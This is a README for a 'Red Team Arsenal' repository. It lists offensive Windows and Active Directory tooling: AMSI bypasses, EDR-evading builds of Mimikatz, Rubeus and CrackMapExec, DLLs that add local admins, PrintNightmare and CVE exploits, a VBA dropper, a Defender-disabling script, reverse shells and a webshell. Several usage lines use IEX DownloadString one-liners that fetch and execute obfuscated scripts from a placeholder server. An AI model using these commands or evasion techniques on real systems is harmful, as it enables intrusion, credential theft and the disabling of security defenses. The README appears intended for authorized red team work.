 # Red Team Arsenal

Some binaries/scripts that may be useful in red team/pentest exercises.

Most of the stuff here is far from fancy or the best solution possible, sorry :(... they just do the job and might come in handy for you in some way.

---

* adduserbyimpersonation.cpp: A modified version of sensepost's [impersonate](https://github.com/sensepost/impersonate) to only impersonate a token and add a new local admin/domain admin user to a computer/domain.
	*  `.\adduserbyimpersonation.exe list` to list tokens.
	*  `.\adduserbyimpersonation.exe adduser <token_ID> <username> <password> <server>` to add a new user impersonating the \<token_ID>. If \<server> is a DC, it will add a new domain user. If \<server> is a regular domain computer, it will add a new local user (SAM).
	*  `.\adduserbyimpersonation.exe addtodomaingroup <token_ID> <username> <domain_group> <server>` to add an existing domain user to a domain group.
	*  `.\adduserbyimpersonation.exe addtolocalgroup <token_ID> <username> <local_group> <server>` to add an existing local user/domain user to a local group (e.g. builtin "Administrators" group).
* GetNPUsers.exe: GetNPUsers.py from impacket compiled to .exe via pyinstaller.
* b_python.exe: BloodHound.py project compiled to .exe via cx\_Freeze. You may want to run this with `--disable-pooling` flag.
	* `.\b_python.exe -u <username> -p <pass> -d <domain> -dc <dc_fqdn> -gc <dc_fqdn> -ns <dc_ip> -c all --disable-pooling` 
* generate\_malicious\_lnk.ps1: Malicious .lnk generator (with wordpad.exe icon).
* cpy.exe: Certipy project compiled to .exe via cx\_Freeze. Bypassing many EDRs.
* CreateSymlink.exe: Precompiled "CreateSymlink.exe" from James Forshaw's
* html\_smuggling\_loader.html: A HTML smuggling template.
* hook\_detector.cs: EDR Hooks Detector in C#. Modify the code to include other win32 APIs.
* find\_cpassword\_sysvol.ps1: A simple ps1 script to search for "cpassword" references in SYSVOL folder.
* find\_pwd\_shared\_folder.ps1: A simple ps1 script to search for password/juicy references in a given shared folder. Modify `$ComputerName`, `$DomainName` and `$SharedFolder` variables accordingly.
* enum\_gpos.ps1: A ps1 script to enum the ACLs associated to GPOs in the environment. Implemented using ADSI so you don't need any external module.
* crackmapexec.exe: CrackMapExec compiled to .exe.
* crackmapexec_t.exe: CrackMapExec compiled to .exe with reduced entropy to bypass some specific EDRs (~~CS Falcon~~).
* AMSI\_bypass\_cross\_project.cpp: Patch AMSI in a given PID (C++). 
	* `.\AMSI_bypass_cross_project.exe <PID>`
* amsi\_patching\_go.go: Patch AMSI in a given PID (go). 
	* `.\amsi_patching_go.exe <PID>`
* amsipythonbypass.zip: AMSI patching implemented in Python. Extracted from FluidAttacks [post](https://fluidattacks.com/blog/amsi-bypass-python/).
* add\_user\_dll.cpp / adduser.dll: DLL that adds a new local admin user when loaded. Dynamically look up for local Administrators group name and add the user using windows APIs to avoid using net.exe/net1.exe.
	* Compilation in Linux --> `i686-w64-mingw32-gcc -shared -o adduser.dll add\_user\_dll.cpp`
* add\_user\_dll2.cpp: DLL that adds a new local admin user when loaded (via system(net.exe...) method).
	* Compilation in Linux --> `i686-w64-mingw32-gcc -shared -o adduser2.dll add\_user\_dll2.cpp`
* Invoke-Mimikatz.ps1: Powershell mimikatz with some minor bug fixes.
* SpoolSample.exe: SpoolSample precompiled binary (printerbug).
* bin\_to\_uuids.py: .bin to uuids converter, useful for UUID injection.
	* `python3 bin_to_uuids.py payload.bin`
* aes\_sektor7.py: AES256 encryption script extracted from Sektor7. Modified this to also save an `encrypted.bin` file that later may be imported as .rsrc in a maldev template. 
	* `python3 aes_sektor7.py payload.bin`, it will generate a encrypted.bin on /tmp.
* decrypt_aes.cpp: AESdecrypt sample.
* SharpPrintNightmare.exe: SharpPrintNightmare precompiled binary.
* obf-sharphound.ps1: SharpHound.ps1 obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-sharphound.ps1"); undertow -GdHcDvjN99 all`
* obf-pnightmare.ps1: PrintNightmare obfuscated by pyfuscation. Use with DLL "add\_user\_dll.cpp" or "add\_user\_dll2.cpp"
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pnightmare.ps1"); essentially -Dll "C:\Users\public\Desktop\adduser.dll"`
* obf-pup.ps1: Powerup obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pup.ps1"); pave`
* rpivot.exe: rpivot.py compiled to .exe through cx\_freeze. Useful to establish SOCKS proxy communication in legacy powershell versions (e.g. v2).
	* `.\rpivot.exe --server-ip <IP> --server-port <PORT>`
	*  On remote server: `python3 server.py --server-IP <IP> --server-port <PORT> --proxy-ip 127.0.0.1 --proxy-port 1080`
* ch.exe: chisel.exe + limelighter project.
* netman\_sth.exe / netman\_sth\_x86.exe: A more stealth NetMan service trigger. Used to exploit a well known DLL hijacking when we have a writeable %PATH% directory in Windows Servers ([reference](https://itm4n.github.io/windows-server-netman-dll-hijacking/)). 
* WSuspicious.exe: WSUSpicious precompiled binary.
* Rubeus\_encrypted.exe: Rubeus encrypted by nimcrypt2.
* Rubeus.xml: Rubeus.xml to be executed with msbuild.exe.
* SharpKatz.xml: SharpKatz.xml to be executed with msbuild.exe.
* SharpPrintNightmare.exe: Precompiled SharpPrintNightmare.
* c.exe: Certify.exe + InvisibilityCloak obfuscation.
* dictionary.txt: Just a english dictionary to be appended on binaries to reduce entropy.
	* `cat dictionary.txt >> t.exe`
	* Check compressibility: `gzip -v -c t.exe > /dev/null`
* only\_sam\_dump.exe / only\_sam\_dump.py: Python script (compiled to .exe) to dump SAM/SYSTEM hives only. Based on secretsdump script. Created just to evade some EDR products.
* secretsdump.exe: secretsdump compiled to .exe via cx\_freeze.
* smbmap.exe: smbmap project compiled to .exe.
* weblogic\_pw\_decryptor.py: A decryptor to weblogic passwords contained in config.xml
* keytabextract.py: Python script to extract NTLM Hashes from KeyTab files
	* `./keytabextract.py <keytabfile>`
* mimi\_peruns\_fart.exe: A more stealth mimikatz.exe (donut + payload encryption + peruns fart applied)
* m\_obf2.exe: Mimikatz + Inceptor project
* mimikatz-nimcrypt2.exe: Mimikatz.exe encrypted with nimcrypt2 project
* dropper.vba: A simple VBA dropper. C# code extracted from .DOCX/.XLSX "comments" section (`ActiveDocument.BuiltInDocumentProperties("Comments").Value`)
* xor.cs: A XOR template in C#.
* CVE-2020-14882.py: Python script to exploit CVE-2020-14882.
* dwrite.dll: DLL used to exploit a DLL sideloading on Microsoft Teams (Microsoft Teams searches for this non-existent DLL on its startup).
* windows\_license.vbs: VBS to extract windows licenses... old content.
* disable-defender.ps1: A ps1 script to disable Windows Defender.
* dllinj.go: Process injection implemented in golang.
* screenshot.ps1: A ps1 script to take a desktop screenshot. Modify the `$File` variable to specify the location for saving the .bmp image.
* bleedhound.zip: An obfuscated version of BloodHound project.
* merge\_nessus\_files.py: Python script to merge multiple .nessus files.
* modshadowpass.sh: Useful to modify passwords when we have write privileges to /etc/shadow (this is NOT opsec-friendly :)
* reverse\_shell.py: A simple revshell in py... old content, you may want to use https://www.revshells.com/.
* reverse\_shell.sh: A simple revshell in sh... old content, you may want to use https://www.revshells.com/.
* systracing_cve-2020-0668.txt: Steps to reproduce CVE-2020-0668.
* webshell.aspx: ASP.NET webshell. A defined "AUTHKEY" is required to interact with it (line 8).

